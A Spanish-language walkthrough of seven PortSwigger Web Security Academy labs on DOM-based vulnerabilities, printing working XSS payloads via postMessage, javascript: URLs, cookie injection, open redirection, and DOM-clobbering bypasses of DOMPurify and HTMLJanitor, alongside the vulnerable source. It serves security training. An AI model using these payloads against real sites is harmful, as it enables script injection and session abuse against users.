

# DOM-based vulnerabilities - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/dom-based](https://portswigger.net/web-security/dom-based)

## Índice
- [1. Lab: DOM XSS using web messages](#1-lab-dom-xss-using-web-messages)
- [2. Lab: DOM XSS using web messages and a JavaScript URL](#2-lab-dom-xss-using-web-messages-and-a-javascript-url)
- [3. Lab: DOM XSS using web messages and JSON.parse](#3-lab-dom-xss-using-web-messages-and-jsonparse)
- [4. Lab: DOM-based open redirection](#4-lab-dom-based-open-redirection)
- [5. Lab: DOM-based cookie manipulation](#5-lab-dom-based-cookie-manipulation)
- [6. Lab: Exploiting DOM clobbering to enable XSS](#6-lab-exploiting-dom-clobbering-to-enable-xss)
- [7. Lab: Clobbering DOM attributes to bypass HTML filters](#7-lab-clobbering-dom-attributes-to-bypass-html-filters)
- [CONCLUSION](#conclusion)

## 1. Lab: DOM XSS using web messages

```
Esta práctica de laboratorio demuestra una vulnerabilidad de mensaje web simple. Para resolver esta práctica de laboratorio, use el servidor de explotación para publicar un mensaje en el sitio de destino que haga que print() se llame a la función.
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Como podemos ver en el código, el sitio web recibe el mensaje mediante el evento addEventListener, y este lo ingresa dentro de un elemento con Id **ads**.

```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
```

Entonces, crearemos un iframe en nuestro exploit server para enviar un mensaje desde este a la web objetivo.

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a59002d04f446f88211bae700fb0094.web-security-academy.net/' onload="this.contentWindow.postMessage('mensaje de prueba','*')">
```

Luego verificamos en el server exploit que se muestre nuestro mensaje en el iframe del sitio objetivo.


Como podemos ver, se refleja nuestro texto de prueba en el sitio web, entonces lo que haremos sera ingresar una etiqueta HTML que genere un ataque XSS para ejecutar la función print().

```html

```

Entonces, nuestro payload en el exploit server quedaría de la siguiente manera:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a59002d04f446f88211bae700fb0094.web-security-academy.net/' onload="this.contentWindow.postMessage('','*')">
```

Como podemos ver, al ingresar a nuestro exploit server evidenciamos la opción de imprimir lo cual significa que se logro explotar el payload XSS.


Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.




## 2. Lab: DOM XSS using web messages and a JavaScript URL

```
Esta práctica de laboratorio demuestra una vulnerabilidad de redirección basada en DOM que se activa mediante la mensajería web. Para resolver esta práctica de laboratorio, construya una página HTML en el servidor de explotación que aproveche esta vulnerabilidad y llame a la print()función.
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Entonces, podemos ver que el sitio web objetivo obtiene el dato enviado por el mensaje de un sitio web y actualiza con este el valor de la variable location.href, pero como podemos el código javascript anterior valida que el mensaje que es enviado contenga el string **http:** o **https:** en su contenido.

Entonces, lo que haremos en primer lugar sera crear un payload que pueda ejecutar código javascript mediante la variable location.href.

Entonces, por laboratorios anteriores de xss, sabe que podemos usar como url el siguiente payload:

```html
javascript:alert(1);
```

Lo cual cargara un alert de javascript cuando este sea enviado a la url del navegador. Esto ocurre porque estamos especificando al navegador que luego de **javascript:** todo el contenido siguiente sea interpretado como código javascript.

Ahora, debemos agregar el string **http:** y la función print() que nos pide el laboratorio, asi que luego de ejecutar la función print, generamos un comentario con el string para que evada la protección.

```javascript
javascript:print();//http:
```

Entonces, nuestro payload final para el exploit server seria el siguiente:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a04005c0351f02a88752b7500e600cc.web-security-academy.net/' onload="this.contentWindow.postMessage('javascript:print();//http:','*')">
```

Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.


## 3. Lab: DOM XSS using web messages and JSON.parse

```
Este laboratorio usa mensajería web y analiza el mensaje como JSON. Para resolver el laboratorio, construya una página HTML en el servidor de explotación que aproveche esta vulnerabilidad y llame a la print() función.
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

Como podemos ver en el código javascript anterior, se crea un elemento con etiqueta iframe y se le actualiza el valor de src dependiendo de que se envíe mediante el mensaje web al sitio web objetivo. El sitio web esta esperando un json como mensaje, en el cual si la variable type tiene el valor de **load-channel** se actualiza en el atributo **src** el valor de la variable **url**.

Entonces, nuestro json podría ser el siguiente:

```json
{"type":"load-channel", "url":"https://desdes.xyz"}
```

Como lo que buscamos es realizar es un ataque XSS que ejecute la función print(), entonces nuestro json seria el siguiente:

```json
{"type":"load-channel", "url":"javascript:print()"}
```

Luego, enviaremos esto mediante un **postMessage** al sitio web mediante un iframe en nuestro exploit server, por lo que nuestro payload final seria el siguiente:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0abd00e8044126c580f72b9d00540023.web-security-academy.net/' onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.


## 4. Lab: DOM-based open redirection

```
Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM. Para resolver este laboratorio, aproveche esta vulnerabilidad y redirija a la víctima al servidor de explotación.
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
</div>
```

Como podemos ver, en el código anterior, el sitio web extrae el valor del parámetro get **url** y se asigna como valor al location.href esto quiere decir que se realizara una redirección. 

Entonces, agregaremos un parámetro extra **url** a un articulo para reenviar al usuario a nuestro server exploit.

```
https://0a4d00b40407afbc809c1c8e002000de.web-security-academy.net/post?postId=7&url=https://exploit-0a8f005e04fcaf7f80a61bd0014600f0.exploit-server.net/
```

Entonces, probamos la url en nuestra navegador y verificamos que se ha completado el laboratorio.


## 5. Lab: DOM-based cookie manipulation

```
Este laboratorio demuestra la manipulación de cookies del lado del cliente basada en DOM. Para resolver este laboratorio, inyecte una cookie que cause XSS en una página diferente y llame a la print()función. Deberá usar el servidor de explotación para dirigir a la víctima a las páginas correctas.
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

Como podemos ver por este código, el sitio web objetivo crea o actualiza una cookie llamada **lastViewedProduct** con el valor de la url que estemos ingresando en el navegador.

Luego podemos ver que existe otra porción de código html como el siguiente:

```html
<section class="top-links">
    <a href=/>Home</a><p>|</p>
    <a href='https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1'>Last viewed product</a><p>|</p>
</section>
```

Como podemos ver, al parecer el sitio web carga el valor de la cookie y lo actualiza en el sitio web, para ello cambiaremos la url para verificar si se realiza algún cambio en la sección **Last viewed product**.

```url
https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1&infodeprueba
```

Ingresamos a usar url desde nuestro navegador (para que se actualice la cookie) y luego inspeccionamos el código fuente en búsqueda de algún cambio:

```html
<section class="top-links">
    <a href=/>Home</a><p>|</p>
    <a href='https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1&infodeprueba'>Last viewed product</a><p>|</p>
</section>
```

Al parecer nuestra teoría es correcta, ya que luego de actualizar la cookie logramos cambiar el contenido del hipervínculo de la sección **Last viewed product**.

Asi que ahora, intentaremos escapar de esta etiqueta **\<a\>** con el siguiente payload.

```url
https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1&'>scape-tag
```

Luego de ingresar a la url desde nuestro navegador y buscamos la sección de **Last viewed product** encontramos el siguiente cambio.

```html
<section class="top-links">
    <a href=/>Home</a><p>|</p>
    <a href='https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1&'>scape-tag'>Last viewed product</a><p>|</p>
</section>
```

Como podemos ver, nuestro payload a funcionado, por lo cual vamos a ingresar una etiqueta html que genere un ataque XSS que ejecute la función print() de javascript con el siguiente payload.

```url
https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1&'>
```

Entonces, ingresamos a la url desde nuestro navegador para ejecutar el payload.

```NOTA
NOTA: Tener en cuenta que hay que ingresar 2 veces a la misma url ya que la primera vez que se ingresa el javascript en el sitio web actualiza la cookie y la segunda ves que se ingresa es donde se visualiza el cambio en el sitio web. Esto antes no debíamos realizarlo ya que cuando realizamos la inspección del código fuente mediante el atajo CONTROL + U, se realiza la segunda consulta al sitio web para visualizar el cambio.
```


Como podemos ver luego de ingresar dos veces a la url se realiza el ataque XSS ejecutando la función **print()**. Ahora requerimos generar esto mismo pero para el atacante, por lo cual debemos idear un método para enviar a la victima desde nuestro exploit server al sitio objetivo, para ello usaremos un script sencillo que reenvía a la victima a la url maliciosa anteriormente diseñada.

```html
<script>
location="https://0aa30033041725b08a951679005100d8.web-security-academy.net/product?productId=1&'>"
</script>
```

Entonces, agregamos este payload al exploit server, enviamos dos veces a la victima y completamos el laboratorio.


## 6. Lab: Exploiting DOM clobbering to enable XSS

```
Este laboratorio contiene una vulnerabilidad DOM-clobbering. La funcionalidad de comentarios permite HTML "seguro". Para resolver este laboratorio, construye una inyección HTML que clobbers una variable y utiliza XSS para llamar a la función alert().
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<span id='user-comments'>
    <script src='resources/js/domPurify-2.0.15.js'></script>
    <script src='resources/js/loadCommentsWithDomClobbering.js'></script>
    <script>loadComments('/post/comment')</script>
</span>
```

Como podemos ver, el sitio web inserta dos archivos Javascript y podemos que uno consiste de una librería que limpia o purifica el dom de posibles ataques XSS. Asi mismo, podemos ver que el segundo archivo tiene un nombre interesante **loadCommentsWithDomClobbering.js**.

Podemos entender por ello, que en este segundo archivo javascript es en donde se concentra el ataque de Dom Clobbering. Analizando el código podemos ver dos lineas de código interesantes:

```javascript
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '';
```

En la primera linea nos encontramos con **window.defaultAvatar**, lo cual nos devuelve un objeto que almacena las etiquetas html que tengan como identificador **defaultAvatar**. Si no existe ninguna etiqueta con este identificador entonces la variable javascript defaultAvatar se le asigna el valor por defecto **/resources/images/avatarDefault.svg**. Luego de ello el sitio web, crea una etiqueta **img** para cargar la imagen del usuario que realizo el comentario.

**Para este laboratorio existen muchas cosas que debemos tener en cuenta** como el flujo de ejecución de este javascript y la lógica de ejecución del sitio web. El sitio web consta de artículos o post, en los cuales se le permite a los visitantes realizar comentarios y poder insertar ciertas etiquetas HTML. Para que este laboratorio no sea un simple laboratorio de XSS el sitio web hacer uso de una librería llamada domPurify para validar que etiquetas puede ejecutar el sitio web y cuales no. 

Luego cuando un visitante ingresa un comentario el cual consiste en un cuerpo, nombre del visitante, correo, y sitio web (opcional), este se almacena en una API. Y ya que el javascript se ejecuta al iniciar el sitio web, este comentario no se va a mostrar hasta que se actualice el sitio web lo cual se realiza luego de enviar el mismo. Como podemos ver no existe ninguna entrada en el formulario que le permita a un visitante ingresar una imagen para que lo identifique, entonces de por si por el código javascript analizado anteriormente el sitio web siempre va a cargar la imagen por defecto **/resources/images/avatarDefault.svg**.

Lo que nos queda hacer es clobberizar la variable **defaultAvatar** mediante el objeto **window.defaultAvatar**, para ello debemos ingresar una etiqueta en un comentario de manera que al momento de que el sitio web extraiga las etiquetas con identificador **defaultAvatar** del DOM obtenga esta etiqueta ingresada por nosotros y actualice el valor de la imagen del usuario con otro valor que no sea por defecto.

La teoría de DOM Clobbering nos otorga el siguiente payload:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

Sabemos que el objeto que queremos clobberizar es defaultAvatar y luego se accederá a su atributo **avatar** mediante **defaultAvatar.avatar** en la segunda linea del código javascript que analizamos, por lo que nuestro payload actualizado seria:

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href=/evil.png>
```

Ingresamos en el valor de href una imagen ya que luego este valor sera asignado al atributo src en la etiqueta img creada por el javascript. Enviamos el comentario y observamos el DOM.


Como podemos ver en **1** se refleja nuestro comentario el cual no tiene texto ya que solo consiste de etiquetas html. Asi mismo en **2** podemos identificar que nuestras etiquetas HTML forman parte del DOM. Por ultimo en **3** verificamos que nuestro comentario tiene como imagen de avatar el valor por defecto y no nuestra imagen **evil.png** lo cual explicaremos a continuación. 

Esto se debe al flujo del javascript anterior que analizamos, el sitio web carga comentario por comentario en la sección de comentarios asi que cuando carga nuestro comentario con el payload que ingresamos este recién forma parte de DOM, por ello en la carga del siguiente comentario se mostrara la extracción del DOM de nuestra etiqueta y se realizara acabo el ataque. Por ingresamos un nuevo comentario sin importancia y verificamos si hay cambios.


Como podemos ver luego de ingresar un comentario sencillo verificamos que la etiqueta img con la clase **avatar** tiene como valor de **src** nuestra imagen **evil.png**.

Intentaremos generar un ataque XSS mediante el siguiente payload:

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href=javascript:alert(1)>
```

Esto lo ingresaremos en un post diferente para que no haga conflicto con nuestro payload anterior.


Como podemos ver, en el primer comentario que ingresamos el cual contenía el payload malicioso este al ser reflejado en el sitio web ya no contiene el atributo src ya que este a sido eliminado a la hora de mostrarlo por el domPurify. Luego en el segundo comentario podemos apreciar que el valor del atributo src de la imagen del usuario se encuentra vacía ya que no lo logro extraer del comentario anterior.

Lo que nos toca ahora es revisar este archivo **domPurify-2.0.15.js** en busca de una manera de evadir esta restricción y de alguna manera ejecutar un alert en la etiqueta img del avatar del usuario o visitante.


Mientras revisamos el código del javascript, podemos verificar que hay una linea interesante que parece ser una lista blanca de protocolos permitidos.

```javascript
P = i(/^(?:(?:(?:f|ht)tps?|mailto|tel|callto|cid|xmpp):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-:]|$))/i)
```

Entonces, entre todos ellos podemos ver, que la mayoría de estos protocolos son protocolos de correo o contacto, si elegimos por ejemplo el protocolo **mailto**, lo que podemos intentar es escapar del atributo src de la imagen y generar un XSS mediante el atributo **onerror**. Para realizar esto nuestro nuevo payload seria el siguiente:

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='mailto:"onerror=alert(1)'>
```


Como podemos ver nuestro primer comentario se envió satisfactoriamente, pero en el segundo comentario podemos ver que las comillas dobles fue escapada con **url enconde**.

Entonces, ahora intentaremos el mismo payload pero en lugar de **mailto** usaremos **cid** (no olvidar que lo haremos en un post diferente para no generar conflicto).

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)'>
```


Como podemos ver ya nos encontramos muy cerca de completar el laboratorio, pero podemos verificar que no se ejecuto nuestro alert en javascript y esto se puede deber a que nos encontramos como podemos ver con unas comillas dobles adicionales en el javascript, por ello lo que haremos sera escapar estas comillas iniciando un comentario antes de ellas.

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//'>
```


Ahora si pudimos completar el laboratorio exitosamente, igual revisaremos el contenido del DOM para validar que los cambios se realizaron.


Podemos verificar que los comentarios ayudaron a eliminar el error de sintaxis presente por las comillas dobles adicionales. Con esto damos por concluido este laboratorio. :D .

## 7. Lab: Clobbering DOM attributes to bypass HTML filters

```
Este laboratorio utiliza la biblioteca HTMLJanitor, que es vulnerable al DOM clobbering. Para resolverlo, construye un vector que evite el filtro y utilice el DOM clobbering para inyectar un vector que llame a la función print(). Puede que necesites utilizar el servidor de exploits para hacer que tu vector se auto-ejecute en el navegador de la víctima.
```

Para resolver este laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<span id='user-comments'>
    <script src='resources/js/htmlJanitor.js'></script>
    <script src='resources/js/loadCommentsWithHtmlJanitor.js'></script>
    <script>loadComments('/post/comment')</script>
</span>
```

Analizando el archivo **loadCommentsWithHtmlJanitor.js** y nos encontramos con una sección importante que hace referencia a la carga del cuerpo del comentario ingresado.

```javascript
if (comment.body) {
    let commentBodyPElement = document.createElement("p");
    commentBodyPElement.innerHTML = janitor.clean(comment.body);

    commentSection.appendChild(commentBodyPElement);
}
```

Entonces, podemos ver que el cuerpo del comentario pasa por una función llamada clean de un objeto janitor. Entonces buscando la linea donde se define este objeto encontramos lo siguiente:

```javascript
let janitor = new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});
```

Vemos que el objeto janitor, es creado por la clase **HTMLJanitor** ingresando como tag permitidos **form** e **input**, y esta clase se encuentra en el otro archivo javascript **htmlJanitor.js**. Entonces buscaremos la función **clean** de la clase **HTMLJanitor**.

```javascript
HTMLJanitor.prototype.clean = function (html) {
    const sandbox = document.implementation.createHTMLDocument('');
    const root = sandbox.createElement("div");
    root.innerHTML = html;

    this._sanitize(sandbox, root);

    return root.innerHTML;
};
```

Analizando este código podemos ver que la función clean llama a otra función **_sanitize** que se encuentra en el mismo archivo.

```javascript
HTMLJanitor.prototype._sanitize = function (document, parentNode) {
    var treeWalker = createTreeWalker(document, parentNode);
    var node = treeWalker.firstChild();

    if (!node) { return; }

    do {
      if (node.nodeType === Node.TEXT_NODE) {
        // If this text node is just whitespace and the previous or next element
        // sibling is a block element, remove it
        // N.B.: This heuristic could change. Very specific to a bug with
        // `contenteditable` in Firefox: http://jsbin.com/EyuKase/1/edit?js,output
        // FIXME: make this an option?
        if (node.data.trim() === ''
            && ((node.previousElementSibling && isBlockElement(node.previousElementSibling))
                 || (node.nextElementSibling && isBlockElement(node.nextElementSibling)))) {
          parentNode.removeChild(node);
          this._sanitize(document, parentNode);
          break;
        } else {
          continue;
        }
      }

      // Remove all comments
      if (node.nodeType === Node.COMMENT_NODE) {
        parentNode.removeChild(node);
        this._sanitize(document, parentNode);
        break;
      }

      var isInline = isInlineElement(node);
      var containsBlockElement;
      if (isInline) {
        containsBlockElement = Array.prototype.some.call(node.childNodes, isBlockElement);
      }

      // Block elements should not be nested (e.g. <li><p>...); if
      // they are, we want to unwrap the inner block element.
      var isNotTopContainer = !! parentNode.parentNode;
      var isNestedBlockElement =
            isBlockElement(parentNode) &&
            isBlockElement(node) &&
            isNotTopContainer;

      var nodeName = node.nodeName.toLowerCase();

      var allowedAttrs = getAllowedAttrs(this.config, nodeName, node);

      var isInvalid = isInline && containsBlockElement;

      // Drop tag entirely according to the whitelist *and* if the markup
      // is invalid.
      if (isInvalid || shouldRejectNode(node, allowedAttrs)
          || (!this.config.keepNestedBlockElements && isNestedBlockElement)) {
        // Do not keep the inner text of SCRIPT/STYLE elements.
        if (! (node.nodeName === 'SCRIPT' || node.nodeName === 'STYLE')) {
          while (node.childNodes.length > 0) {
            parentNode.insertBefore(node.childNodes[0], node);
          }
        }
        parentNode.removeChild(node);

        this._sanitize(document, parentNode);
        break;
      }

      // Sanitize attributes
      for (var a = 0; a < node.attributes.length; a += 1) {
        var attr = node.attributes[a];

        if (shouldRejectAttr(attr, allowedAttrs, node)) {
          node.removeAttribute(attr.name);
          // Shift the array to continue looping.
          a = a - 1;
        }
      }

      // Sanitize children
      this._sanitize(document, node);

    } while ((node = treeWalker.nextSibling()));
};
```

En resumen de todo este código la parte mas importante es la siguiente:

```javascript
// Sanitize attributes
for (var a = 0; a < node.attributes.length; a += 1) {
    var attr = node.attributes[a];

    if (shouldRejectAttr(attr, allowedAttrs, node)) {
        node.removeAttribute(attr.name);
        // Shift the array to continue looping.
        a = a - 1;
    }
}
```

Como podemos ver, es este código el que se encarga de verificar que atributos que están permitidos y cuales no, entonces lo que buscamos es clobberizar el objeto **attributes**, de esta manera generamos un error a la hora de calcular **attributes.length**.

Cuando se genere un error al calcular **attributes.length** el bucle for que sanitizar no se ejecutara de manera correcta y podemos usar cualquier atributo html en nuestras etiquetas permitidas que son **form** e **input**.

Entonces, entendiendo bien lo que hay que hacer aplicamos el payload que nos da la teoría de portswigger.

```html
<form onclick=alert(1)><input id=attributes>Click me
```


Como podemos ver, generamos una input dentro del formulario y cuando le hacemos clic a este input nos salta el mensaje de alerta.

Ahora, recodemos lo que nos solicita el laboratorio para completarlo.

```text
Para resolverlo, construye un vector que evite el filtro y utilice el DOM clobbering para inyectar un vector que llame a la función print(). 

Puede que necesites utilizar el servidor de exploits para hacer que tu vector se auto-ejecute en el navegador de la víctima.
```

Entonces como podemos ver necesitamos automatizar la ejecución del XSS porque hasta el momento solo se ejecuta si el usuario le hace clic al input. Para automatizar esto usaremos el atributo **onfocus** ya que esto nos puede ser util si el usuario se centra en el formulario, entonces nuestro payload quedaría de esta manera.

```html
<form onfocus=alert(1)><input id=attributes>Click me
```

Una manera de ejecutar focus en una etiqueta como form es asignándole un identificador de manera que luego este se pueda acceder por url mediante **#id**. Por ejemplo le otorgamos el identificador xyz.

```html
<form onfocus=alert(1) id=xyz><input id=attributes>Click me
```

Entonces, para centrar la pantalla primero acedemos a nuestra url que en este caso seria:

```
https://0a9600ac04ef5c14801c856d00e2009a.web-security-academy.net/post?postId=2
```

Y luego agregamos el identificador en la url.

```
https://0a9600ac04ef5c14801c856d00e2009a.web-security-academy.net/post?postId=2#xyz
```


Ahora la pregunta seria, Porque lo dejemos ejecutar de esta manera?, porque no colocar directamente la ultima url?, esto se debe a como funciona la ejecución del sitio web. Si nos damos cuenta luego que carga el sitio web principal recién empiezan a cargarse los comentarios y con ello nuestro payload insertado. Por ello si acedemos directamente desde la segunda url no se centrara en el formulario porque el formulario aun no existe.

Como podemos ver, hemos logrado centrar el sitio web, pero aun no generamos el alert, esto es porque aunque centremos el formulario gracias al identificador mediante url debemos agregar un atributo extra a la etiqueta para que se pueda acceder directamente a nuestro formulario y este atributo es **tabIndex** con valor **0**. Entonces nuestro payload quedaría de la siguiente manera:

```html
<form onfocus=alert(1) id=xyz tabIndex=0><input id=attributes>Click me
```

Acedemos al post y luego agregamos el identificador mediante url para generar el alert.


Ahora, para culminar el laboratorio debemos usar nuestro exploit server para automatizar la carga del sitio web y también el agregar el identificador mediante la url. Esto lo haremos utilizando un iframe para cargar el sitio web, asi mismo reemplazamos el **alert** por **print** como nos solicita el laboratorio.

```html
<iframe src='https://0a9600ac04ef5c14801c856d00e2009a.web-security-academy.net/post?postId=5'>
```

Pero necesitamos agregar algo adicional. Ya que luego que cargue el iframe deberíamos agregarle el identificador mediante url, esto lo realizaremos usando el atributo **onload** en el **iframe** y actualizando la variable **this.src**.

```html
<iframe src='https://0a9600ac04ef5c14801c856d00e2009a.web-security-academy.net/post?postId=5' onload='this.src=this.src+"#xyz"'>
```


Como podemos ver, desgraciadamente no se ha generado ninguna ventana de impresión :c. Esto se debe a que al parecer el código javascript insertado en el sitio web objetivo aun no se ejecuto y se realizo muy pronto el cambio de la url. Para ello podemos utilizar una función en javascript llamada **setTimeout**, la cual recibe 2 valores, un código en javascript y un delay para que este se ejecute.

```javascript
setTimeout(code,time)
```

Entonces, en código pondremos la actualización de la url, y en tiempo pondremos 500 mili segundos.

```javascript
setTimeout(this.src=this.src+"#xyz",500)
```

**NOTA: Por alguna razón la cual no encuentro en la documentación (o tal vez no lei muy bien) el delay no se ejecuta si no haces referencia a una función, asi que en todos los ejemplos los encuentras creando una función temporal o algo asi como ()=>{aquí si pon el código}, sin las llaves obvio.** 

```javascript
setTimeout(()=>this.src=this.src+"#xyz",500)
```

Entonces, agregamos este código javascript dentro de nuestro atributo onload de la siguiente manera:

```html
<iframe src='https://0a9600ac04ef5c14801c856d00e2009a.web-security-academy.net/post?postId=5' onload='setTimeout(()=>this.src=this.src+"#xyz",500)'>
```


Como podemos ver, ahora si se ejecuta la función print() mediante el ataque XSS. Ahora solo enviamos el exploit a la victima y damos por concluido el laboratorio.


##  CONCLUSION

Este modulo a sigo muy interesante ya que nos ayuda a entender mas a profundidad sobre el DOM y las vulnerabilidad que puedes desarrollarse en este entorno y como muchas veces es necesario analizar todo el código javascript presente en un sitio web para poder encontrar debilidades en el front-end de una web. Los últimos 2 laboratorios son muy interesantes ya que nos ensenan un tipo de ataque basado en DOM que no conocía y creería que muchos tampoco. Por ello y por las vulnerabilidad encontradas en este modulo se recomienda usar librerías seguras y actualizadas de javascript para proteger nuestros sitios web ante cualquier ataque basado en DOM.